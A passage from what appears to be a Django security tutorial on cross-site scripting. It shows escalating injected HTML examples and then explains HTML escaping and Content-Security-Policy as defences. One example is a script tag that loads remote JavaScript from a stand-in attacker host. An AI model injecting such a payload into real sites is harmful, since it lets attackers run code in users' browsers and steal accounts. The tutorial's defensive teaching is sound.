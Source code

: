 For an honest interaction like "What could possibly go wrong?" as user input, that is truly harmless. What about this?

```html
<div class="area-where-user-content-gets-displayed">
  I am getting <i>sneaky</i>.
</div>
```

Now, the user added a bit of HTML markup. Again, this is fairly benign and will only add some unanticipated italics. What if the user is a bit more clever than that?

```html
<div class="area-where-user-content-gets-displayed">
  <script>alert("Boom goes the dynamite!")</script>
</div>
```

Here's where a site gets into trouble. If this is rendered on a page, a little alert box will appear. You can imagine this happening in a forum or some other sharing site where multiple people will see this output. That's annoying, but it's still not horrible.

What does a really bad scenario look like? A really bad scenario is where the bad guys figure out that your site is unsafe in this way. Consider this:

```html
<div class="area-where-user-content-gets-displayed">
  <script src="https://really-bad-guys.com/owned.js"></script>
</div>
```

Now your users are really in trouble. In this final version, the bad guys won. A user's browser will download and execute whatever JavaScript is in `owned.js`. This code could do all kinds of stuff like using the `fetch` API to run AJAX requests that can change the user's account credentials and steal their account.

How do we defend against this kind of attack? There isn't a singular answer. In fact, multiple layers of protection is often what you really want. In security, this idea is called "defense-in-depth." If you have multiple layers to protect your site, then the site may become a less appealing target for attackers.

For this particular scenario, we can use a couple of things

* HTML escaping of untrusted input
* CSP

The real problem above is that the site is rendering user input without any modification. This is a problem with HTML because the raw characters are interpreted as HTML code and not just user data.

The simplest solution is to make sure that any characters that mean something specific to HTML (like `<` or `>`) are replaced with escape codes (`&lt;` or `&gt;`) that will display the character in the browser without treating it like the actual HTML code character. **Django does this auto-escaping of user data by default**. You can disable this behavior for portions of a template using a variety of template tags like `autoescape` and the (ironically named?) `safe` tag.

Because there are ways to opt out of safe behavior from HTML escaping and because clever attackers might find other ways to inject script calls into your site, CSP is another layer of protection.

Primarily, CSP is possible with a `Content-Security-Policy` HTTP header. You can read all of the gritty details on the {{< extlink "https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP" "Content Security Policy (CSP)" >}} article on MDN. Like CORS, CSP is not something that Django supports out-of-the-box. Thankfully, Mozilla (yep, the same Mozilla from MDN), offers a {{< extlink "https://django-csp.readthedocs.io/en/latest/index.html" "django-csp" >}} package that you can use to configure an appropriate policy for your Django site.
